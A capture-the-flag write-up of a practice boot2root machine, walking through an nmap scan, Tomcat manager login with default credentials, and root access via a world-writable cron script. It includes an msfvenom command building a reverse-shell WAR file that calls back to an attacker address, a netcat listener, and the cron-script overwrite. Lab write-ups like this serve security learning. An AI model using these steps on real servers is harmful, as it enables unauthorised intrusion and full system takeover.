



# Bsides Guatemala CTF Thompson boot2root machine
  
Simple Boot2Root box  
Find `user.txt` and `root.txt` FTW!!!  

## Enumeration

Tool of choice is `nmap` with superuser privileges

```
Nmap 7.93 scan initiated Sat Oct  1 22:34:17 2022 as: nmap -Pn -sC -sV -vv -oN scans/thompson_init -T4 10.10.192.158
Nmap scan report for 10.10.192.158
Host is up, received user-set (0.23s latency).
Scanned at 2022-10-01 22:34:17 EDT for 31s
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc052481987eb8db0592a6e78eb02111 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL+0hfJnh2z0jia21xVo/zOSRmzqE/qWyQv1G[..]
|   256 60c840abb009843d46646113fabc1fbe (ECDSA)
| ecdsa-sha2
-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBG6CiO2B7Uei2whKgUHjLmGY7dq1uZF[...]
|   256 b5527e9c019b980c73592035ee23f1a5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIwYtK4oCnQLSoBYAztlgcEsq8FLNL48LyxC2RfxC+33
8009/tcp open  ajp13   syn-ack ttl 61 Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    syn-ack ttl 61 Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supporte
d Methods: GET HEAD POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/local/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct  1 22:34:49 2022 -- 1 IP address (1 host up) scanned in 31.98 seconds
```

## Discovery


## Exploit

Apache Tomcat running on port 8080, this should be fun.  
Load up the discovered service in a browser with ZAP running to intercept traffic and lo and behold the 
server sends the **STATUS** page as the login prompt is popping up. The contents of the page include a snippet 
revealing default install creds which can be seen below  

  

These creds are valid and I'm logged on to the Tomcat server as an Admin  



This page reveals I can deploy apps from Web Archive Files aka `WAR` files.  

Will deploy an app to spawn of _reverse shell_ back to my attacker box using a _war file_ generated by 
`msfvenom` and catch that shell with `netcat`.  


	┌──(kali㉿thmkali)-[~/Desktop/THM/room/bsidesgtthompson]
	└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=$MYIP LPORT=4448 -f war > revshell.war 
	Payload size: 1100 bytes
	Final size of war file: 1100 bytes
	
	┌──(kali㉿thmkali)-[~/Desktop/THM/room/bsidesgtthompson]
	└─$ nc -lvnp 4448                
	listening on [any] 4448 ...
	Connect from ...

So we get our shell and find some interesting files in `/home/jack`  
One of the files is our first flag `user.txt`  
Cat that one out for half the points!  
Laying next to `user.txt` is `test.txt` and `id.sh`  
These files are interesting as the contents of `test.txt` is  

	uid=0(root) gid=0(root) groups=0(root)

That looks suspiciously like the root account running the command `id`  

Wonder what's in `/etc/crontab` ?  

Aha! An entry in the system **CRONTAB** to run this `/home/jack/id.sh` once a minute. The file itself currently 
logs it's output to the `test.txt` file.  
But what is great news for us is that `id.sh` is world writeable. iow 
_anyone_ can change the contents of `id.sh`.  Which is exactly what we are going to do.  

```
echo "cat /root/root.txt > test.txt" > id.sh
```

Wait about a minute and cat out the contents of `test.txt` that has `/root/root.txt` echoed into it by the System **CRONJOB**


And that's a wrap!
